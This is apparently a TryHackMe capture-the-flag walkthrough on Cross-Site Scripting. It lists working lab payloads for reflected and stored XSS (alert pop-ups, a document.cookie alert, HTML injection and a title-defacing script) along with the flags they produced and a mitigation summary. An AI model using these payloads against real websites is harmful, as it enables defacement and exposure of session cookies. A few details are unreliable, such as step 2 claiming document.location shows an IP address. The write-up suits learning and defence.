 # ✴️ Cross-Site Scripting (XSS) – TryHackMe Walkthrough

## 📝 Overview

**Cross-Site Scripting (XSS)** is a client-side injection vulnerability that allows attackers to execute malicious scripts in a victim’s browser. It typically occurs when unsanitized user input is rendered on a webpage.

There are three main types:

* **Stored XSS** – Malicious scripts are permanently stored on the server (e.g., in a database) and executed when victims load the page.
* **Reflected XSS** – The malicious payload is part of the request and reflected back in the response.
* **DOM-Based XSS** – The payload executes due to client-side DOM manipulation without server interaction.

This lab demonstrates **DOM-Based, Reflected, and Stored XSS** attacks.

---

## 🎯 Lab Objective

* Exploit **Reflected XSS** to trigger JavaScript pop-ups.
* Exploit **Stored XSS** to execute scripts and deface the webpage.
* Retrieve flags from each challenge.

---

## 🛠 Steps to Exploit

### ✅ 1. Reflected XSS – Basic Popup

* Navigated to the **Reflected XSS** page.

* Injected a simple JavaScript payload into the input field:

  ```html
  <script>alert("Hello")</script>
  ```

* **Flag Retrieved:**

  ```
  ThereIsMoreToXSSThanYouThink
  ```

---

### ✅ 2. Reflected XSS – Display IP Address

* Crafted a payload to display the attacker’s IP address:

  ```html
  <script>alert(document.location)</script>
  ```

* **Flag Retrieved:**

  ```
  ReflectiveXss4TheWin
  ```

---

### ✅ 3. Stored XSS – HTML Injection

* Created an account on the **Stored XSS** page and posted a comment with basic HTML tags:

  ```html
  <h3>You have been hacked!</h3>
  ```

* **Flag Retrieved:**

  ```
  HTML_T4gs
  ```

---

### ✅ 4. Stored XSS – Cookie Stealing Popup

* Injected a payload to trigger a popup displaying document cookies:

  ```html
  <script>alert(document.cookie)</script>
  ```

* **Flag Retrieved:**

  ```
  W3LL_D0N3_LVL2
  ```

---

### ✅ 5. Stored XSS – Defacing the Webpage

* Modified the page title **“XSS Playground”** to **“I am a hacker”** by injecting this JavaScript payload:

  ```html
  <script>document.getElementById("thm-title").innerHTML = "I am a hacker"</script>
  ```

* **Flag Retrieved:**

  ```
  websites_can_be_easily_defaced_with_xss
  ```

---

## ✅ Key Takeaways

* **Root Cause:** Lack of input sanitization and output encoding, allowing arbitrary JavaScript execution.
* **Impact:**

  * Theft of cookies or session tokens
  * Website defacement
  * Keylogging, phishing, and further exploitation
* **Mitigation:**

  * Implement proper input sanitization and output encoding
  * Use Content Security Policy (CSP)
  * Sanitize and validate all user inputs on both client and server sides

---

## 🗺 MITRE ATT\&CK Mapping

| **Technique**               | **ID**                                              | **Description**                                                 |
| --------------------------- | --------------------------------------------------- | --------------------------------------------------------------- |
| **Exploitation for Client** | [T1185](https://attack.mitre.org/techniques/T1185/) | Injecting malicious scripts to execute in the victim’s browser. |
| **Valid Accounts**          | [T1078](https://attack.mitre.org/techniques/T1078/) | If session cookies are stolen, attackers may hijack accounts.   |


